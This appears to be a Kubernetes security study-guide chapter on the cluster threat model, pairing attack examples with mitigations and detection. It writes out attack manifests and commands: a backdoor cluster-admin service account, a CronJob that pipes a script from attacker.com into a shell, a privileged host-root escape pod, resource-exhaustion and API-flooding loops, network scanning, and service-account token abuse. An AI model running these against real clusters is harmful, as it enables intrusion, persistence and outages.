


# Kubernetes Threat Model - 16%

Understanding the Kubernetes threat landscape is crucial for implementing effective security controls. This section covers the various attack vectors, threat actors, and security risks specific to Kubernetes environments, along with mitigation strategies.

## Kubernetes Trust Boundaries and Data Flow

Trust boundaries define the security perimeters within a Kubernetes cluster, while data flow analysis helps identify potential attack paths and security vulnerabilities.

### Trust Boundaries

#### Cluster-Level Boundaries
- **Control Plane vs. Worker Nodes**: Control plane components have elevated privileges
- **Cluster vs. External Networks**: Network perimeter security
- **Privileged vs. Unprivileged Workloads**: Different security contexts
- **System vs. User Namespaces**: Built-in vs. custom workloads

#### Node-Level Boundaries
- **Host vs. Container**: Container runtime isolation
- **Privileged vs. Unprivileged Containers**: Security context differences
- **Container vs. Container**: Process and network isolation
- **Kubelet vs. Container Runtime**: Component privilege separation

#### Network Boundaries
- **Pod-to-Pod Communication**: East-west traffic
- **Ingress Traffic**: North-south inbound traffic
- **Egress Traffic**: North-south outbound traffic
- **Service Mesh**: Encrypted service communication

### Data Flow Analysis

#### API Server Communication


#### Pod Communication Flow


#### Critical Data Flows to Secure
1. **Client to API Server**: Authentication and authorization
2. **API Server to etcd**: Encryption at rest and in transit
3. **Kubelet to Container Runtime**: Secure container execution
4. **Pod to Pod**: Network policies and service mesh
5. **Pod to External**: Egress filtering and monitoring

### Threat Actors

#### External Attackers
- **Motivations**: Data theft, ransomware, disruption
- **Attack Vectors**: Exposed services, vulnerable applications
- **Capabilities**: Automated scanning, exploit frameworks

#### Malicious Insiders
- **Motivations**: Financial gain, revenge, espionage
- **Attack Vectors**: Privileged access abuse, data exfiltration
- **Capabilities**: Legitimate access, insider knowledge

#### Compromised Applications
- **Attack Vectors**: Supply chain attacks, vulnerable dependencies
- **Capabilities**: Container escape, lateral movement
- **Impact**: Data access, privilege escalation

#### Nation-State Actors
- **Motivations**: Espionage, infrastructure disruption
- **Capabilities**: Advanced persistent threats (APTs)
- **Resources**: Custom exploits, zero-day vulnerabilities

## Persistence

Persistence refers to an attacker's ability to maintain access to a Kubernetes cluster after initial compromise, ensuring continued access even after system restarts or security updates.

### Persistence Techniques

#### Malicious Container Images
Attackers may compromise container registries or inject malicious code:

```yaml
# Example of a potentially compromised deployment
apiVersion: apps/v1
kind: Deployment
metadata:
  name: malicious-app
spec:
  replicas: 1
  selector:
    matchLabels:
      app: malicious-app
  template:
    metadata:
      labels:
        app: malicious-app
    spec:
      containers:
      - name: app
        image: compromised-registry.com/malicious:latest
        # Hidden backdoor or cryptocurrency miner
```

**Mitigation Strategies:**
- Image scanning and vulnerability assessment
- Image signing and verification
- Private registry with access controls
- Admission controllers for image validation

#### Backdoor Service Accounts
Creating persistent service accounts with elevated privileges:

```yaml
# Malicious service account with cluster-admin privileges
apiVersion: v1
kind: ServiceAccount
metadata:
  name: backdoor-sa
  namespace: kube-system

---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: backdoor-binding
subjects:
- kind: ServiceAccount
  name: backdoor-sa
  namespace: kube-system
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

**Detection and Prevention:**
- Regular RBAC audits
- Monitoring service account creation
- Principle of least privilege
- Automated compliance checking

#### Malicious Admission Controllers
Compromising admission controllers to inject malicious configurations:

```yaml
# Malicious validating admission webhook
apiVersion: admissionregistration.k8s.io/v1
kind: ValidatingAdmissionWebhook
metadata:
  name: malicious-webhook
webhooks:
- name: backdoor.example.com
  clientConfig:
    service:
      name: malicious-service
      namespace: default
      path: "/validate"
  rules:
  - operations: ["CREATE", "UPDATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
```

#### Persistent Volumes
Using persistent storage to maintain access:

```yaml
# Malicious persistent volume claim
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: backdoor-storage
spec:
  accessModes:
  - ReadWriteOnce
  resources:
    requests:
      storage: 1Gi
  # Contains malicious scripts or data
```

#### CronJobs for Scheduled Access
```yaml
apiVersion: batch/v1
kind: CronJob
metadata:
  name: backdoor-cron
spec:
  schedule: "0 2 * * *"  # Daily at 2 AM
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: backdoor
            image: busybox
            command:
            - /bin/sh
            - -c
            - |
              # Malicious script execution
              curl -s attacker.com/script.sh | sh
          restartPolicy: OnFailure
```

### Persistence Detection

#### Monitoring Indicators
- Unexpected service account creations
- New RBAC bindings with elevated privileges
- Suspicious container images or registries
- Unusual network connections
- Persistent volume access patterns
- Scheduled job modifications

#### Detection Tools
```bash
# Check for suspicious service accounts
kubectl get serviceaccounts --all-namespaces -o wide

# Audit RBAC bindings
kubectl get clusterrolebindings -o wide
kubectl get rolebindings --all-namespaces -o wide

# Monitor admission controllers
kubectl get validatingadmissionwebhooks
kubectl get mutatingadmissionwebhooks

# Check for suspicious CronJobs
kubectl get cronjobs --all-namespaces
```

## Denial of Service (DoS)

DoS attacks aim to disrupt the availability of Kubernetes clusters and applications by overwhelming resources or exploiting vulnerabilities.

### Resource Exhaustion Attacks

#### CPU and Memory Bombs
```yaml
# Malicious pod consuming excessive resources
apiVersion: v1
kind: Pod
metadata:
  name: resource-bomb
spec:
  containers:
  - name: cpu-bomb
    image: busybox
    command: ["sh", "-c", "while true; do :; done"]
    resources:
      requests:
        cpu: "100m"
        memory: "128Mi"
      # No limits specified - can consume unlimited resources
```

**Mitigation:**
```yaml
# Proper resource limits
resources:
  limits:
    cpu: "500m"
    memory: "512Mi"
  requests:
    cpu: "100m"
    memory: "128Mi"
```

#### Storage Exhaustion
```yaml
# Malicious pod filling up disk space
apiVersion: v1
kind: Pod
metadata:
  name: disk-bomb
spec:
  containers:
  - name: disk-filler
    image: busybox
    command: ["sh", "-c", "dd if=/dev/zero of=/tmp/bigfile bs=1M count=10000"]
    volumeMounts:
    - name: temp-storage
      mountPath: /tmp
  volumes:
  - name: temp-storage
    emptyDir: {}
```

#### API Server Overload
```bash
# Malicious script overwhelming API server
while true; do
  kubectl get pods --all-namespaces &
  kubectl get services --all-namespaces &
  kubectl get deployments --all-namespaces &
done
```

### Network-Based DoS

#### Pod Network Flooding
```yaml
# Malicious pod generating network traffic
apiVersion: v1
kind: Pod
metadata:
  name: network-flooder
spec:
  containers:
  - name: flooder
    image: busybox
    command: ["sh", "-c", "while true; do ping -f 8.8.8.8; done"]
```

#### Service Disruption
```yaml
# Malicious service consuming all available ports
apiVersion: v1
kind: Service
metadata:
  name: port-exhaustion
spec:
  type: NodePort
  ports:
  - port: 80
    nodePort: 30000
  # Creating many such services can exhaust available NodePorts
```

### DoS Prevention and Mitigation

#### Resource Quotas
```yaml
apiVersion: v1
kind: ResourceQuota
metadata:
  name: dos-prevention
  namespace: production
spec:
  hard:
    requests.cpu: "4"
    requests.memory: "8Gi"
    limits.cpu: "8"
    limits.memory: "16Gi"
    persistentvolumeclaims: "4"
    pods: "10"
    services: "5"
    secrets: "10"
    configmaps: "10"
```

#### Limit Ranges
```yaml
apiVersion: v1
kind: LimitRange
metadata:
  name: dos-limits
  namespace: production
spec:
  limits:
  - default:
      cpu: "500m"
      memory: "512Mi"
      ephemeral-storage: "1Gi"
    defaultRequest:
      cpu: "100m"
      memory: "128Mi"
      ephemeral-storage: "100Mi"
    max:
      cpu: "2"
      memory: "4Gi"
      ephemeral-storage: "10Gi"
    type: Container
```

#### Network Policies for DoS Prevention
```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: rate-limiting
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: web
  policyTypes:
  - Ingress
  - Egress
  ingress:
  - from:
    - ipBlock:
        cidr: 10.0.0.0/8
    ports:
    - protocol: TCP
      port: 80
  egress:
  - to: []
    ports:
    - protocol: TCP
      port: 443
    - protocol: UDP
      port: 53
```

#### Priority Classes
```yaml
apiVersion: scheduling.k8s.io/v1
kind: PriorityClass
metadata:
  name: critical-priority
value: 1000
globalDefault: false
description: "Critical system workloads"

---
apiVersion: v1
kind: Pod
metadata:
  name: critical-pod
spec:
  priorityClassName: critical-priority
  containers:
  - name: app
    image: nginx
```

## Malicious Code Execution and Compromised Applications

This threat category covers scenarios where attackers execute unauthorized code within containers or compromise running applications.

### Container Escape Techniques

#### Privileged Container Escape
```yaml
# Dangerous privileged container
apiVersion: v1
kind: Pod
metadata:
  name: privileged-escape
spec:
  containers:
  - name: escape-pod
    image: busybox
    securityContext:
      privileged: true  # Dangerous!
    command: ["sh", "-c", "chroot /host && bash"]
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
```

**Secure Alternative:**
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 2000
  containers:
  - name: app
    image: busybox
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop:
        - ALL
      seccompProfile:
        type: RuntimeDefault
```

#### Host Path Mount Abuse
```yaml
# Dangerous host path mount
volumes:
- name: docker-socket
  hostPath:
    path: /var/run/docker.sock  # Dangerous!
- name: host-proc
  hostPath:
    path: /proc  # Dangerous!
```

#### Capability Abuse
```yaml
# Dangerous capabilities
securityContext:
  capabilities:
    add:
    - SYS_ADMIN  # Dangerous!
    - NET_ADMIN  # Potentially dangerous
    - SYS_PTRACE  # Dangerous!
```

### Application-Level Attacks

#### Code Injection
```yaml
# Vulnerable application example
apiVersion: v1
kind: Pod
metadata:
  name: vulnerable-app
spec:
  containers:
  - name: web-app
    image: vulnerable-web:latest
    env:
    - name: DB_QUERY
      value: "SELECT * FROM users WHERE id = ${USER_INPUT}"  # SQL injection risk
```

#### Supply Chain Attacks
```yaml
# Potentially compromised dependency
FROM node:14
COPY package.json .
RUN npm install  # May install compromised packages
COPY . .
CMD ["node", "app.js"]
```

### Runtime Security Monitoring

#### Falco Rules for Malicious Activity
```yaml
# Falco rule for detecting shell access
- rule: Shell in container
  desc: Detect shell access to container
  condition: >
    spawned_process and container and
    (proc.name in (shell_binaries) or
     (proc.name in (shell_interpreters) and not proc.args contains "-c"))
  output: >
    Shell spawned in container (user=%user.name container=%container.name 
    image=%container.image.repository:%container.image.tag shell=%proc.name 
    parent=%proc.pname cmdline=%proc.cmdline)
  priority: WARNING

# Falco rule for detecting privilege escalation
- rule: Privilege escalation
  desc: Detect privilege escalation attempts
  condition: >
    spawned_process and container and
    (proc.name in (privilege_escalation_binaries) or
     proc.args contains "sudo" or
     proc.args contains "su ")
  output: >
    Privilege escalation attempt (user=%user.name container=%container.name 
    image=%container.image.repository:%container.image.tag command=%proc.cmdline)
  priority: HIGH
```

#### Runtime Protection with AppArmor
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: apparmor-pod
  annotations:
    container.apparmor.security.beta.kubernetes.io/app: runtime/default
spec:
  containers:
  - name: app
    image: nginx
```

#### Seccomp Profiles
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: seccomp-pod
spec:
  securityContext:
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    image: nginx
    securityContext:
      seccompProfile:
        type: Localhost
        localhostProfile: profiles/audit.json
```

## Attacker on the Network

Network-based attacks target the communication channels and network infrastructure of Kubernetes clusters.

### Network Attack Vectors

#### Man-in-the-Middle (MITM) Attacks
- **Unencrypted communication** between components
- **Certificate validation bypass**
- **DNS spoofing** and cache poisoning
- **ARP spoofing** in container networks

#### Network Reconnaissance
```bash
# Attacker reconnaissance commands
nmap -sS -O target-cluster-ip
kubectl get nodes -o wide
kubectl get services --all-namespaces
kubectl get ingress --all-namespaces
```

#### Lateral Movement
```yaml
# Attacker pod for network scanning
apiVersion: v1
kind: Pod
metadata:
  name: network-scanner
spec:
  containers:
  - name: scanner
    image: busybox
    command: ["sh", "-c", "while true; do nmap -sS 10.0.0.0/8; sleep 3600; done"]
```

### Network Security Controls

#### TLS Everywhere
```yaml
# API server TLS configuration
--tls-cert-file=/etc/kubernetes/pki/apiserver.crt
--tls-private-key-file=/etc/kubernetes/pki/apiserver.key
--client-ca-file=/etc/kubernetes/pki/ca.crt
--tls-cipher-suites=TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256,TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384
--tls-min-version=VersionTLS12
```

#### Service Mesh Security
```yaml
# Istio service mesh configuration
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: default
  namespace: production
spec:
  mtls:
    mode: STRICT

---
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: frontend-policy
  namespace: production
spec:
  selector:
    matchLabels:
      app: frontend
  rules:
  - from:
    - source:
        principals: ["cluster.local/ns/production/sa/backend"]
```

#### Network Segmentation
```yaml
# Micro-segmentation with network policies
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: database-isolation
  namespace: production
spec:
  podSelector:
    matchLabels:
      tier: database
  policyTypes:
  - Ingress
  - Egress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          tier: backend
    ports:
    - protocol: TCP
      port: 5432
  egress:
  - to: []
    ports:
    - protocol: UDP
      port: 53  # DNS only
```

## Access to Sensitive Data

Protecting sensitive data from unauthorized access is a critical security concern in Kubernetes environments.

### Data Exposure Risks

#### Secret Exposure
```yaml
# Bad - secret in environment variable
apiVersion: v1
kind: Pod
metadata:
  name: exposed-secret
spec:
  containers:
  - name: app
    image: nginx
    env:
    - name: DB_PASSWORD
      value: "plaintext-password"  # Dangerous!
```

```yaml
# Good - using secret reference
apiVersion: v1
kind: Pod
metadata:
  name: secure-secret
spec:
  containers:
  - name: app
    image: nginx
    env:
    - name: DB_PASSWORD
      valueFrom:
        secretKeyRef:
          name: db-secret
          key: password
```

#### ConfigMap Data Exposure
```yaml
# Sensitive data in ConfigMap (bad practice)
apiVersion: v1
kind: ConfigMap
metadata:
  name: app-config
data:
  database-url: "postgresql://user:password@db:5432/app"  # Exposed!
  api-key: "sk-1234567890abcdef"  # Exposed!
```

#### Volume Mount Exposure
```yaml
# Dangerous volume mounts
volumes:
- name: host-secrets
  hostPath:
    path: /etc/ssl/private  # Host SSL keys exposed
- name: docker-socket
  hostPath:
    path: /var/run/docker.sock  # Docker daemon access
```

### Data Protection Strategies

#### Encryption at Rest
```yaml
# etcd encryption configuration
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  - configmaps
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: <32-byte base64 encoded key>
  - identity: {}
```

#### External Secret Management
```yaml
# External Secrets Operator
apiVersion: external-secrets.io/v1beta1
kind: SecretStore
metadata:
  name: vault-backend
spec:
  provider:
    vault:
      server: "https://vault.example.com"
      path: "secret"
      version: "v2"
      auth:
        kubernetes:
          mountPath: "kubernetes"
          role: "example-role"

---
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: vault-secret
spec:
  refreshInterval: 15s
  secretStoreRef:
    name: vault-backend
    kind: SecretStore
  target:
    name: example-secret
    creationPolicy: Owner
  data:
  - secretKey: password
    remoteRef:
      key: secret/data/database
      property: password
```

#### Data Loss Prevention
```yaml
# Network policy preventing data exfiltration
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: prevent-exfiltration
  namespace: production
spec:
  podSelector:
    matchLabels:
      tier: database
  policyTypes:
  - Egress
  egress:
  - to:
    - namespaceSelector:
        matchLabels:
          name: production
  # No external egress allowed
```

## Privilege Escalation

Privilege escalation attacks attempt to gain higher privileges than initially granted, potentially leading to cluster compromise.

### Escalation Techniques

#### Container Privilege Escalation
```yaml
# Vulnerable configuration allowing escalation
apiVersion: v1
kind: Pod
metadata:
  name: escalation-risk
spec:
  containers:
  - name: app
    image: nginx
    securityContext:
      allowPrivilegeEscalation: true  # Dangerous!
      capabilities:
        add:
        - SYS_ADMIN  # Dangerous capability
```

#### RBAC Privilege Escalation
```yaml
# Overly permissive RBAC
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: dangerous-role
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]  # Full cluster access!
```

#### Service Account Token Abuse
```bash
# Attacker using service account token
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
kubectl --token=$TOKEN get secrets --all-namespaces
kubectl --token=$TOKEN create clusterrolebinding escalate --clusterrole=cluster-admin --serviceaccount=default:default
```

### Escalation Prevention

#### Secure Pod Security Context
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 2000
  containers:
  - name: app
    image: nginx
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop:
        - ALL
      seccompProfile:
        type: RuntimeDefault
```

#### RBAC Least Privilege
```yaml
# Minimal necessary permissions
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: production
  name: pod-reader
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list", "watch"]
  resourceNames: ["specific-pod"]  # Limit to specific resources
```

#### Admission Controllers
```yaml
# Pod Security Admission preventing escalation
apiVersion: v1
kind: Namespace
metadata:
  name: secure-namespace
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted
```

## Practice Exercises

### Exercise 1: Threat Modeling Workshop
1. Map out trust boundaries in a sample application
2. Identify potential attack paths
3. Document data flows and security controls
4. Create threat scenarios and mitigation plans

### Exercise 2: Persistence Detection
1. Deploy monitoring tools (Falco, audit logging)
2. Simulate persistence attacks:
   - Create backdoor service accounts
   - Deploy malicious CronJobs
   - Modify admission controllers
3. Detect and respond to persistence attempts

### Exercise 3: DoS Attack Simulation
1. Create resource quotas and limits
2. Simulate resource exhaustion attacks
3. Test cluster resilience and recovery
4. Implement monitoring and alerting

### Exercise 4: Network Security Assessment
1. Deploy network policies for micro-segmentation
2. Simulate lateral movement attacks
3. Test network isolation effectiveness
4. Implement service mesh security

### Exercise 5: Privilege Escalation Testing
1. Create test environments with different privilege levels
2. Attempt various escalation techniques
3. Verify security controls prevent escalation
4. Document findings and improvements

## Additional Reading

### Official Documentation
- [Kubernetes Security Concepts](https://kubernetes.io/docs/concepts/security/)
- [Pod Security Standards](https://kubernetes.io/docs/concepts/security/pod-security-standards/)
- [Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)

### Threat Intelligence
- [MITRE ATT&CK for Containers](https://attack.mitre.org/matrices/enterprise/containers/)
- [Kubernetes Threat Matrix](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/)
- [NIST Container Security Guide](https://csrc.nist.gov/publications/detail/sp/800-190/final)

### Security Research
- [Kubernetes Security Research](https://kubernetes.io/docs/concepts/security/#security-research)
- [CVE Database](https://cve.mitre.org/)
- [Kubernetes Security Advisories](https://github.com/kubernetes/kubernetes/security/advisories)

### Tools and Frameworks
- [Falco](https://falco.org/) - Runtime security monitoring
- [Trivy](https://trivy.dev/) - Vulnerability scanner
- [kube-hunter](https://github.com/aquasecurity/kube-hunter) - Penetration testing
- [Polaris](https://polaris.docs.fairwinds.com/) - Configuration validation

## Navigation

- **Previous:** [← Kubernetes Security Fundamentals](../03-security-fundamentals/README.md)
- **Next:** [Platform Security →](../05-platform-security/README.md)
